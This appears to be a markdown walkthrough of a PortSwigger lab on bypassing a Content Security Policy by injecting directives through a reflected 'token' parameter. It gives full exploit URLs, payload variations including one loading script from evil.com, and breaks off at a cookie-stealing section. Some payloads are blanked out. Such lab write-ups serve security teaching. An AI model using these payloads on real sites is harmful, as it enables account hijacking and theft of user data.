

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔍 Identify Reflected XSS vulnerability in search functionality
- 🛡️ Discover Content Security Policy (CSP) protection is active
- 🔬 Analyze CSP header to find injection point in `report-uri` directive
- 💉 Inject malicious CSP directive via `token` parameter
- 🎯 Use `script-src-elem` directive to override existing policy
- 🚨 Bypass CSP with `'unsafe-inline'` to allow inline scripts
- 🎉 Execute `alert()` function to solve lab (Chrome only)

---

## 🧠 **Concept Recap**

> **Reflected XSS protected by CSP, with CSP bypass** occurs when a web application uses Content Security Policy to prevent XSS attacks, but the CSP itself contains an exploitable vulnerability. Specifically, when user-controlled input is reflected into the CSP header itself (usually in directives like `report-uri`), an attacker can inject their own CSP directives. By injecting `script-src-elem 'unsafe-inline'`, attackers can override restrictive CSP policies and execute arbitrary JavaScript, completely bypassing the CSP protection.

### 📊 **The Vulnerability**

**Normal CSP protection:**

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

This policy blocks:

- ❌ Inline scripts (`<script>alert(1)</script>`)
- ❌ Inline event handlers (``)
- ❌ External scripts from other domains
- ❌ `javascript:` URLs
- ✅ Only allows scripts from same origin

**Vulnerable CSP with token parameter:**

```js
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=USER_CONTROLLED_VALUE
```

**The critical flaw:**

```js
The vulnerability exists because:

CSP Header Construction:
├── Server builds CSP header dynamically
├── Includes user-controlled 'token' parameter in report-uri
├── No validation or sanitization of token value
└── Token can contain semicolons and CSP directives! 💥

Normal report-uri:
report-uri /csp-report?token=abc123

Malicious token injection:
report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
                                ↑
                                └── Semicolon starts NEW directive!

Resulting CSP header:
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'

Parser interpretation:
Directive 1: default-src 'self'
Directive 2: script-src 'self'
Directive 3: report-uri /csp-report?token=
Directive 4: script-src-elem 'unsafe-inline' ← INJECTED! 💥

The attack works because:
└── Semicolon (;) is CSP directive separator
    └── Allows adding new directives
        └── script-src-elem is MORE SPECIFIC than script-src
            └── Overrides the restrictive policy! ✓
```

**Understanding script-src-elem directive:**

```js
CSP Directive Hierarchy:

script-src (Generic):
├── Controls ALL JavaScript execution
├── Applies to:
│   ├── <script> elements
│   ├── Inline event handlers (onclick, onerror, etc.)
│   ├── javascript: URLs
│   └── eval() and similar functions
└── Introduced in CSP Level 1

script-src-elem (Specific):
├── Controls ONLY <script> elements
├── Applies to:
│   ├── <script> tags
│   ├── <script src="..."> external scripts
│   └── Inline <script> blocks
├── Does NOT apply to:
│   ├── Event handlers ❌
│   ├── javascript: URLs ❌
│   └── eval() ❌
├── Introduced in CSP Level 3
└── OVERRIDES script-src for <script> elements! 💥

The override mechanism:

Original policy:
script-src 'self'
└── Blocks inline scripts
    └── Blocks external scripts (except same-origin)

Injected policy:
script-src-elem 'unsafe-inline'
└── OVERRIDES script-src for <script> elements
    └── Allows inline <script> blocks! ✓

Result:
├── <script>alert(1)</script> → ALLOWED! ✓
├──  → Still blocked (not covered by script-src-elem)
└── script-src 'self' becomes irrelevant for script elements

Why this works:

Specificity rules in CSP:
└── More specific directive wins over general directive
    └── script-src-elem is specific to <script> elements
        └── Overrides script-src for those elements
            └── Other script sources still blocked by script-src! ✓

Browser compatibility:
├── Chrome: Full support ✅ (CSP Level 3)
├── Firefox: Full support ✅
├── Safari: Partial support ⚠️
└── This lab requires Chrome! 🎯

The 'unsafe-inline' keyword:
└── Allows inline JavaScript execution
    └── Defeats CSP protection
        └── XSS becomes possible! 💥

Example execution:

With injection: token=;script-src-elem 'unsafe-inline'

Full CSP becomes:
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self'; 
    report-uri /csp-report?token=;
    script-src-elem 'unsafe-inline'

When browser parses:
1. Sees script-src 'self' → Blocks inline scripts
2. Sees script-src-elem 'unsafe-inline' → OVERRIDES for <script> elements
3. Result: <script> tags allowed, event handlers still blocked

Payload execution:
<script>alert(1)</script>
├── Browser checks CSP for <script> element
├── Finds script-src-elem 'unsafe-inline'
├── Policy allows inline scripts
└── alert(1) EXECUTES! 💥
```

**Attack comparison table:**

```js
| Payload Type              | Original CSP | After Injection | Result    |
|---------------------------|--------------|-----------------|-----------|
| <script>alert(1)</script> | Blocked ❌   | Allowed ✅      | EXECUTES! |
|     | Blocked ❌   | Blocked ❌      | Blocked   |
| <body onload=alert(1)>    | Blocked ❌   | Blocked ❌      | Blocked   |
| <svg onload=alert(1)>     | Blocked ❌   | Blocked ❌      | Blocked   |
| javascript:alert(1)       | Blocked ❌   | Blocked ❌      | Blocked   |

Key insight:
└── Only <script> tags work
    └── Event handlers still blocked
        └── script-src-elem is SPECIFIC to script elements! ✓
```

**Why developers make this mistake:**

```js
Common misconception:
"CSP headers are secure because:
 - They control resource loading ✓
 - They block inline scripts ✓
 - They're set by the server ✓
 Therefore user input can't affect CSP!"

Reality:
"CSP headers are CONSTRUCTED dynamically:
 - User input included in report-uri
 - Semicolons create new directives
 - script-src-elem overrides script-src
 - CSP itself becomes attack vector! ⚠️"

The vulnerability chain:
1. Developer adds CSP for security ✓
2. CSP includes report-uri for monitoring ✓
3. report-uri includes token parameter ✓
4. Token parameter comes from user input ❌
5. No validation of token content ❌
6. Attacker injects CSP directives ❌
7. CSP protection bypassed! 💥

Root cause:
└── Treating CSP as OUTPUT only
    └── Forgetting it can contain INPUT
        └── Input validation missing
            └── CSP injection possible! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Locate the **search functionality**

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1: "CSP Tutorial"         │
│ ├── Post 2: "Web Security"         │
│ └── Post 3: "XSS Prevention"       │
│                                    │
└────────────────────────────────────┘
```

**Initial observation:**

```
✅ Search functionality present
✅ Input field visible
💡 Let's test for XSS vulnerability
```

---

### 🔎 **Step 2 — Test Basic XSS Payload**

1. 🖱️ Click in the search box
2. ✏️ Type a basic XSS payload: ``
3. 🚀 Click **"Search"** button

**URL changes to:**

```HTML
https://YOUR-LAB-ID.web-security-academy.net/?search=
```

**Page displays:**

```
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for               │
│ ''     │ ← Payload reflected!
│                                    │
└────────────────────────────────────┘
```

**Critical observations:**

```js
✅ Payload is REFLECTED in the page
✅ Visible in search results
❌ But NO alert popup appears!
💡 JavaScript is being blocked - likely CSP!

View page source:
<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <section class="search">
        <form action="/" method="GET">
            <input type="text" name="search">
            <button type="submit">Search</button>
        </form>
    </section>
    
    <section class="blog-header">
        <h1>0 search results for ''</h1>
    </section>
</body>
</html>

Payload analysis:
├── Input: 
├── Reflected: 
├── HTML context: Inside <h1> tag
├── No encoding/escaping applied
└── XSS vulnerability exists! ✓

But why no execution?
└── Check browser console (F12)
    └── Look for CSP errors
```

---

### 🔬 **Step 3 — Check Browser Console for CSP**

1. 🖱️ Press **F12** to open Developer Tools
2. 📋 Click on **"Console"** tab
3. 👀 Look for CSP-related errors

**Console shows:**

```
Refused to execute inline event handler because it violates 
the following Content Security Policy directive: "script-src 'self'". 
Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a 
nonce ('nonce-...') is required to enable inline execution.
```

**Analysis:**

```js
🎯 CSP IS BLOCKING EXECUTION!

Error breakdown:
├── "Refused to execute inline event handler"
│   └── Browser blocked onerror attribute
├── "violates the following Content Security Policy directive"
│   └── CSP is active and enforcing
├── "script-src 'self'"
│   └── Only same-origin scripts allowed
└── Inline execution requires 'unsafe-inline', hash, or nonce
    └── None present, so blocked! ✓

This confirms:
✅ XSS vulnerability exists (reflection)
✅ CSP is protecting against exploitation
💡 Need to find CSP bypass technique!
```

---

### 🕵️ **Step 4 — Intercept Request in Burp Suite**

**Open Burp Suite and configure browser:**

1. 🔧 Open **Burp Suite**
2. 🌐 Configure browser to use Burp proxy (127.0.0.1:8080)
3. 🎯 Turn on **"Intercept"** in Proxy tab
4. 🔄 In lab, submit search again: `test`

**Intercepted request:**

```http
GET /?search=test HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

**Forward the request and examine response:**

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=
                                                                             ↑            ↑
                                                                             └────────────┴── Empty token!
Content-Length: 3456

<!DOCTYPE html>
<html>
...
</html>
```

**Critical discovery:**

```http
🎯 FOUND THE CSP HEADER!

CSP Policy Analysis:
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=

Directives breakdown:
├── default-src 'self'
│   └── Default: only load resources from same origin
├── script-src 'self'
│   └── Scripts: only from same origin
│   └── Blocks inline scripts
│   └── Blocks external scripts
└── report-uri /csp-report?token=
    ↑                          ↑
    └──────────────────────────┴── TOKEN PARAMETER! 💥

The vulnerability:
└── report-uri includes 'token' parameter
    └── Token appears to be empty or user-controlled
        └── If we can control token...
            └── We can inject CSP directives! 💡

Next step:
└── Test if token parameter accepts user input
    └── Can we add our own token value?
        └── Let's try! 🔍
```

---

### 💉 **Step 5 — Test Token Parameter Injection**

1. 🔍 In browser URL bar, add `&token=test123` to the URL
2. 🌐 Navigate to: `https://YOUR-LAB-ID.web-security-academy.net/?search=hello&token=test123`
3. 🕵️ In Burp, examine the response headers

**Response with token:**

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=test123
                                                                                              ↑     ↑
                                                                                              └─────┴── Our input!
Content-Length: 3467

<!DOCTYPE html>
...
```

**Analysis:**

```http
🎯 TOKEN PARAMETER IS REFLECTED IN CSP HEADER!

Discovery:
├── Input: &token=test123
├── CSP Header: report-uri /csp-report?token=test123
└── USER INPUT IN CSP HEADER! 💥

This means:
└── We control part of the CSP header
    └── Can we inject directives?
        └── Try adding semicolon (;)
            └── Semicolon separates CSP directives! ✓

Attack strategy:
└── Inject: ;script-src-elem 'unsafe-inline'
    └── Semicolon creates new directive
        └── script-src-elem overrides script-src
            └── 'unsafe-inline' allows inline scripts
                └── XSS possible! 💡
```

---

### 🎯 **Step 6 — Test CSP Directive Injection**

1. 🔍 Test basic directive injection
2. 🌐 Navigate to: `https://YOUR-LAB-ID.web-security-academy.net/?search=test&token=;script-src-elem 'self'`
3. 🕵️ Examine response headers in Burp

**Response:**

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'self'
                                                                                              ↑                      ↑
                                                                                              └──────────────────────┴── Injected!
Content-Length: 3489
```

**Parsing the injected CSP:**

```http
Original CSP header:
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'self'

Browser parses as:
Directive 1: default-src 'self'
Directive 2: script-src 'self'
Directive 3: report-uri /csp-report?token=
Directive 4: script-src-elem 'self' ← NEW DIRECTIVE! ✓

The injection worked:
✅ Semicolon started new directive
✅ script-src-elem directive added
✅ Browser recognizes it as valid CSP
✅ Injection successful! 💥

Now test with 'unsafe-inline':
└── Change to: ;script-src-elem 'unsafe-inline'
    └── This should allow inline <script> tags! 🎯
```

---

### 🧪 **Step 7 — Test with unsafe-inline Directive**

1. 🔍 Modify URL to use `'unsafe-inline'`
2. 🌐 Navigate to: `https://YOUR-LAB-ID.web-security-academy.net/?search=test&token=;script-src-elem 'unsafe-inline'`
3. 🕵️ Check response in Burp

**Response:**

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
                                                                                              ↑                             ↑
                                                                                              └─────────────────────────────┴── Injected!
Content-Length: 3498
```

**CSP Analysis:**

```js
Effective CSP after injection:
├── default-src 'self'
├── script-src 'self'
├── report-uri /csp-report?token=
└── script-src-elem 'unsafe-inline' ← OVERRIDES script-src for <script> elements!

What this means:
Original policy: script-src 'self'
└── Blocks inline <script> tags

Injected policy: script-src-elem 'unsafe-inline'
└── OVERRIDES for <script> elements
    └── Allows inline <script> tags! ✓

Result:
├── <script>alert(1)</script> → WILL EXECUTE! ✅
├──  → Still blocked ❌
└── Only <script> tags allowed

Now test actual XSS payload:
└── Combine with search parameter
    └── Get alert popup! 🎯
```

---

### 🚀 **Step 8 — Construct Final Exploit URL**

**Build the complete exploit:**

```http
URL components:
1. Base URL: https://YOUR-LAB-ID.web-security-academy.net/
2. Search parameter: ?search=<script>alert(1)</script>
3. Token parameter: &token=;script-src-elem 'unsafe-inline'

Complete URL:
https://YOUR-LAB-ID.web-security-academy.net/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'

URL encoding (for safety):
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert(1)%3C/script%3E&token=;script-src-elem%20'unsafe-inline'

Breakdown:
├── %3C = <
├── %3E = >
├── %20 = space
└── Single quotes don't need encoding in URL
```

**How it works:**

```js
Step 1: Browser requests URL
GET /?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline' HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net

Step 2: Server builds response with CSP
HTTP/2 200 OK
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
                                                                                              ↑
                                                                                              └── Injected directive

Step 3: Server reflects search in HTML
<h1>0 search results for '<script>alert(1)</script>'</h1>
                          ↑                        ↑
                          └────────────────────────┴── Reflected XSS payload

Step 4: Browser parses HTML
├── Finds <script> tag
├── Checks CSP for script execution
├── Finds script-src-elem 'unsafe-inline'
├── Policy allows inline scripts
└── Executes alert(1)! 💥

Step 5: Alert popup appears
┌────────────────────────────┐
│ This page says:            │
│                            │
│ 1                          │
│                            │
│         [OK]               │
└────────────────────────────┘

Step 6: Lab automatically solved! 🎉
```

---

### ✅ **Step 9 — Execute Final Exploit**

1. 🌐 **Open Chrome browser** (required for this lab)
2. 🔗 Navigate to the complete exploit URL:

```
https://YOUR-LAB-ID.web-security-academy.net/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

3. ⏎ **Press Enter**

**Expected behavior:**

```HTML
Page loads sequence:
1. Browser sends GET request
2. Server responds with:
   - Modified CSP header (with injected directive)
   - HTML with reflected <script> tag
3. Browser parses HTML
4. Browser checks CSP before executing <script>
5. CSP allows execution (due to script-src-elem 'unsafe-inline')
6. alert(1) executes
7. Alert popup appears! 💥
```

**Alert popup:**

```
┌─────────────────────────────────────┐
│ This page says:                     │
│                                     │
│ 1                                   │
│                                     │
│            [OK]                     │
└─────────────────────────────────────┘
```

**Success indicators:**

```js
✅ Alert popup displays with "1"
✅ Executes on page load
✅ CSP bypass successful
✅ Lab automatically marked as solved! 🎉

Check in Burp Suite:
Request:
GET /?search=<script>alert(1)</script>&token=;script-src-elem%20'unsafe-inline' HTTP/2

Response headers:
Content-Security-Policy: default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
                                                                                              ↑
                                                                                              └── Injection successful

Response body:
<h1>0 search results for '<script>alert(1)</script>'</h1>
                          ↑                        ↑
                          └────────────────────────┴── Reflected and executed!

DevTools Console (F12):
└── No CSP errors
    └── Script executed successfully
        └── May show undefined (alert's return value)
```

---

### 🎓 **Step 10 — Understanding Why It Works**

**Deep dive into the bypass:**

```HTML
The CSP Injection Mechanism:

Level 1: HTTP Response Construction
Server code (simplified):
def handle_request(search, token):
    csp = f"default-src 'self'; script-src 'self'; report-uri /csp-report?token={token}"
    html = f"<h1>0 search results for '{search}'</h1>"
    return Response(html, headers={'Content-Security-Policy': csp})

Input values:
├── search = "<script>alert(1)</script>"
└── token = ";script-src-elem 'unsafe-inline'"

Constructed CSP:
"default-src 'self'; script-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'"
                                                                      ↑
                                                                      └── Semicolon creates new directive!

Level 2: CSP Parsing by Browser
CSP Parser sees semicolons as directive separators:

Split by ';':
├── "default-src 'self'"
├── "script-src 'self'"
├── "report-uri /csp-report?token="
└── "script-src-elem 'unsafe-inline'" ← NEW DIRECTIVE!

Parser validation:
├── Is "script-src-elem" a valid directive? ✅ (CSP Level 3)
├── Is "'unsafe-inline'" a valid value? ✅
└── Directive accepted! ✓

Level 3: CSP Directive Specificity
Directive hierarchy:
script-src (general) ← Applies to all scripts
    ↓ OVERRIDDEN BY
script-src-elem (specific) ← Applies only to <script> elements

When browser sees: <script>alert(1)</script>
1. Checks for script-src-elem directive
2. Finds: script-src-elem 'unsafe-inline'
3. Policy allows inline <script> elements
4. Ignores script-src 'self' for this element type
5. Executes the script! 💥

Level 4: Why Other Payloads Still Fail

├── Browser checks CSP for inline event handlers
├── Looks for script-src-attr directive (not present)
├── Falls back to script-src 'self'
├── 'self' doesn't include 'unsafe-inline'
└── Execution BLOCKED ❌

<svg onload=alert(1)>
├── Same as above
├── Event handler blocked by script-src 'self'
└── Execution BLOCKED ❌

<script>alert(1)</script>
├── Browser checks for script-src-elem directive
├── Finds: script-src-elem 'unsafe-inline'
├── Policy explicitly allows inline script elements
└── Execution ALLOWED ✅

Level 5: The Mathematical Proof
Let:
- O = Original script-src policy = 'self'
- I = Injected script-src-elem policy = 'unsafe-inline'
- T = Element type = <script> tag

For element type T:
If script-src-elem exists:
    Policy(T) = script-src-elem
Else:
    Policy(T) = script-src

In our case:
Policy(<script>) = script-src-elem 'unsafe-inline' ✓
Policy() = script-src 'self' ✓

Therefore:
├── <script> tags allowed (unsafe-inline)
└── Event handlers blocked ('self')

Level 6: Why Chrome Only?
script-src-elem directive:
├── Introduced in CSP Level 3
├── Chrome: Full support ✅
├── Firefox: Full support ✅
├── Safari: Partial/No support ⚠️
├── Edge: Full support ✅

Lab specifically requires Chrome:
└── PortSwigger tests in Chrome environment
    └── Consistent behavior guaranteed
        └── Best for learning! 🎓

The complete attack chain:
1. User input in token parameter ✓
2. Token reflected in CSP header ✓
3. Semicolon injects new directive ✓
4. script-src-elem overrides script-src ✓
5. 'unsafe-inline' allows inline scripts ✓
6. <script> tag executes ✓
7. alert(1) pops up ✓
8. CSP completely bypassed! 💥
```

---

### 🏆 **Step 11 — Lab Completion**

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited         │
│  reflected XSS by injecting a       │
│  malicious CSP directive into       │
│  the Content-Security-Policy        │
│  header, bypassing CSP protection   │
│  using script-src-elem directive.   │
│                                     │
│  Lab: Reflected XSS protected by    │
│       CSP, with CSP bypass          │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test XSS payload
         → 
         → Reflected but not executed ✓
         ↓
Step 3: Check console for CSP error
         → "script-src 'self'" blocking inline scripts
         → CSP protection confirmed! ✓
         ↓
Step 4: Intercept request in Burp Suite
         → Examine response headers
         → Find: Content-Security-Policy header
         ↓
Step 5: Analyze CSP header
         → Found: report-uri /csp-report?token=
         → Token parameter in CSP! 🎯
         ↓
Step 6: Test token parameter
         → Add: &token=test123
         → Value reflected in CSP header ✓
         → Injection point confirmed! 💥
         ↓
Step 7: Test directive injection
         → Inject: ;script-src-elem 'self'
         → Semicolon creates new directive ✓
         → CSP injection works! ✓
         ↓
Step 8: Inject unsafe-inline
         → Use: ;script-src-elem 'unsafe-inline'
         → Overrides script-src for <script> elements
         → Inline scripts now allowed! ✓
         ↓
Step 9: Construct final exploit
         → search=<script>alert(1)</script>
         → token=;script-src-elem 'unsafe-inline'
         → Combined URL created! ✓
         ↓
Step 10: Execute exploit in Chrome
         → Navigate to exploit URL
         → CSP header modified with injection
         → <script> tag reflected and executed
         → alert(1) pops up! 💥
         ↓
Step 11: Lab automatically solved! 🎉
```

---

## ⚙️ **Understanding Content Security Policy (CSP)**

### **What is CSP?**

```js
Content Security Policy Basics:

Definition:
└── Security feature that helps prevent XSS and other attacks
    └── Controls which resources browser can load/execute
        └── Defined via HTTP header or <meta> tag
            └── Browser enforces the policy! ✓

Purpose:
├── Prevent XSS attacks
├── Prevent data injection
├── Prevent clickjacking
├── Prevent protocol downgrade
└── Defense in depth! 🛡️

How CSP works:

Step 1: Server sends CSP header
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'self'; script-src 'self'
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Protected Page</title>
</head>
<body>
    <h1>Hello World</h1>
    <script src="/app.js"></script> ← Allowed ('self')
    <script>alert(1)</script> ← BLOCKED!
</body>
</html>

Step 2: Browser receives page
├── Parses CSP header
├── Builds policy rules
└── Enforces throughout page lifetime

Step 3: Browser encounters resource
Example: <script>alert(1)</script>
├── Checks CSP for script-src directive
├── Policy says: 'self' only
├── Inline script not from 'self'
└── Execution BLOCKED! ✓

Step 4: CSP violation reported
Console error:
"Refused to execute inline script because it violates 
the following Content Security Policy directive: 
'script-src 'self''."

Optional: Report sent to server
POST /csp-report HTTP/1.1
Content-Type: application/csp-report
{
  "csp-report": {
    "blocked-uri": "inline",
    "violated-directive": "script-src 'self'",
    ...
  }
}
```

---

### **CSP Directives**

```http
Common CSP Directives:

Fetch Directives (Control resource loading):

default-src:
├── Fallback for all fetch directives
├── Example: default-src 'self'
└── Only load resources from same origin

script-src:
├── Controls JavaScript execution
├── Example: script-src 'self' https://trusted.com
└── Blocks inline scripts by default

script-src-elem (CSP Level 3):
├── Controls <script> elements only
├── Example: script-src-elem 'unsafe-inline'
├── Overrides script-src for script elements
└── CRITICAL FOR THIS LAB! 🎯

script-src-attr (CSP Level 3):
├── Controls inline event handlers
├── Example: script-src-attr 'none'
└── Blocks onclick, onerror, etc.

style-src:
├── Controls CSS
├── Example: style-src 'self' 'unsafe-inline'
└── Inline styles need 'unsafe-inline'

img-src:
├── Controls images
├── Example: img-src 'self' data: https:
└── Common to allow data: URLs

connect-src:
├── Controls fetch, XHR, WebSocket
├── Example: connect-src 'self'
└── Restricts AJAX destinations

Document Directives:

base-uri:
├── Controls <base> element
├── Example: base-uri 'self'
└── Prevents base tag injection

frame-ancestors:
├── Controls who can embed page
├── Example: frame-ancestors 'none'
└── Like X-Frame-Options

Reporting Directives:

report-uri (Deprecated):
├── URL to send violation reports
├── Example: report-uri /csp-report?token=abc
└── VULNERABLE IN THIS LAB! 💥

report-to (Modern):
├── Named reporting endpoint
├── Example: report-to csp-endpoint
└── More flexible than report-uri

CSP Source Values:

'none':
└── Block everything
    Example: script-src 'none'

'self':
└── Same origin only
    Example: script-src 'self'

'unsafe-inline':
└── Allow inline scripts/styles ⚠️
    Example: script-src 'unsafe-inline'
    WARNING: Defeats CSP purpose!

'unsafe-eval':
└── Allow eval() and similar ⚠️
    Example: script-src 'unsafe-eval'
    WARNING: Dangerous!

'nonce-<value>':
└── Whitelist specific inline code
    Example: script-src 'nonce-r4nd0m'
    <script nonce="r4nd0m">...</script>

'sha256-<hash>':
└── Whitelist by content hash
    Example: script-src 'sha256-abc123...'
    Inline script must match hash

https://example.com:
└── Allow specific origin
    Example: script-src https://cdn.example.com

https::
└── Allow any HTTPS origin
    Example: img-src https:

data::
└── Allow data: URLs
    Example: img-src data:

*:
└── Allow any origin ⚠️
    Example: img-src *
    WARNING: Too permissive!
```

---

### **CSP Directive Specificity**

```js
Understanding Directive Hierarchy:

Generic vs Specific Directives:

Generic (CSP Level 1 & 2):
script-src → Controls ALL JavaScript
├── <script> elements
├── Inline event handlers
├── javascript: URLs
└── eval() and similar

Specific (CSP Level 3):
script-src-elem → Controls ONLY <script> elements
script-src-attr → Controls ONLY event handlers

Specificity Rules:
If both present:
├── Specific directive applies to its domain
└── Generic directive applies to everything else

Example:
Content-Security-Policy: script-src 'self'; script-src-elem 'unsafe-inline'

For <script> tags:
└── Uses script-src-elem 'unsafe-inline' ✓

For onclick handlers:
└── Uses script-src 'self' ✓

This is why our bypass works:
Original: script-src 'self'
Injected: script-src-elem 'unsafe-inline'

Result:
├── <script> tags → script-src-elem → ALLOWED ✅
└── Event handlers → script-src → BLOCKED ❌

Override mechanism:

Priority (highest to lowest):
1. script-src-elem (for <script> elements)
2. script-src (for all scripts)
3. default-src (fallback)

Example policies:

Policy 1:
Content-Security-Policy: default-src 'self'
Result:
└── All resources from 'self'

Policy 2:
Content-Security-Policy: default-src 'self'; script-src 'none'
Result:
├── Most resources from 'self'
└── Scripts blocked entirely

Policy 3:
Content-Security-Policy: default-src 'self'; script-src 'none'; script-src-elem 'unsafe-inline'
Result:
├── Most resources from 'self'
├── <script> tags ALLOWED (unsafe-inline)
└── Event handlers BLOCKED ('none')

Policy 3 is what we create with our injection! 💥
```

---

### **Why report-uri is Vulnerable**

```js
The report-uri Vulnerability:

Purpose of report-uri:
└── Sends CSP violation reports to server
    └── Helps monitor and debug CSP
        └── Example: report-uri /csp-report

How it should work:
User triggers CSP violation
    ↓
Browser sends report to /csp-report
    ↓
Server logs violation
    ↓
Developers review and fix

The token parameter problem:

Safe implementation:
report-uri /csp-report

Vulnerable implementation:
report-uri /csp-report?token=USER_INPUT
                                ↑        ↑
                                └────────┴── NOT VALIDATED!

Why it's dangerous:
└── CSP uses semicolons to separate directives
    └── If user can inject semicolon in token
        └── New directives can be added!

Attack vector:
Input: token=;script-src-elem 'unsafe-inline'

Resulting CSP:
report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
                              ↑
                              └── Semicolon starts new directive!

Browser parses as:
Directive 1: report-uri /csp-report?token=
Directive 2: script-src-elem 'unsafe-inline' ← INJECTED!

Root causes:
1. User input in CSP header ❌
2. No validation of token parameter ❌
3. Semicolon not escaped/blocked ❌
4. Trust in user-provided data ❌

Proper mitigation:
1. Don't include user input in CSP
2. If necessary, strictly validate
3. Use allowlist for token values
4. Escape/remove dangerous characters
5. Use report-to instead of report-uri (modern CSP)

Example secure implementation:
# Generate random token server-side
token = generate_secure_token()  # e.g., "a7f3d9e2c1b4"

# Validate against allowlist
VALID_TOKENS = {"a7f3d9e2c1b4", "b8e4a0f3d2c5", ...}
if user_token not in VALID_TOKENS:
    user_token = DEFAULT_TOKEN

# Use in CSP
csp = f"...; report-uri /csp-report?token={token}"

This prevents injection:
└── User can't control token content
    └── No arbitrary input in CSP
        └── Injection impossible! ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: Alternative Directive Injection**

```http
Instead of script-src-elem, try other directives:

Payload 1: Override with wildcard
?search=<script>alert(1)</script>&token=;script-src-elem *

Resulting CSP:
script-src 'self'; script-src-elem *

Effect:
└── <script> tags can load from ANY origin
    └── Even more permissive than 'unsafe-inline'
        └── Could load external scripts! 💣

Payload 2: Multiple directive injection
?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline';script-src-attr 'unsafe-inline'

Resulting CSP:
script-src 'self'; script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'

Effect:
├── <script> tags allowed
└── Event handlers ALSO allowed!
    └──  would work! 💥

Payload 3: Remove restrictions entirely
?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline' 'unsafe-eval';

Resulting CSP:
script-src 'self'; script-src-elem 'unsafe-inline' 'unsafe-eval'

Effect:
├── Inline scripts allowed
├── eval() allowed
└── Maximum permissiveness! ⚠️

Payload 4: Override default-src
?search=<script src="https://evil.com/xss.js"></script>&token=;default-src *

Resulting CSP:
default-src 'self'; script-src 'self'; default-src *

Effect:
└── Later default-src might override
    └── Browser-dependent behavior
        └── May allow external resources! ⚠️
```

---

### **Variation 2: Cookie Stealing via Injected Script**

```http
Once CSP is bypassed, steal cookies:

Exploit URL:
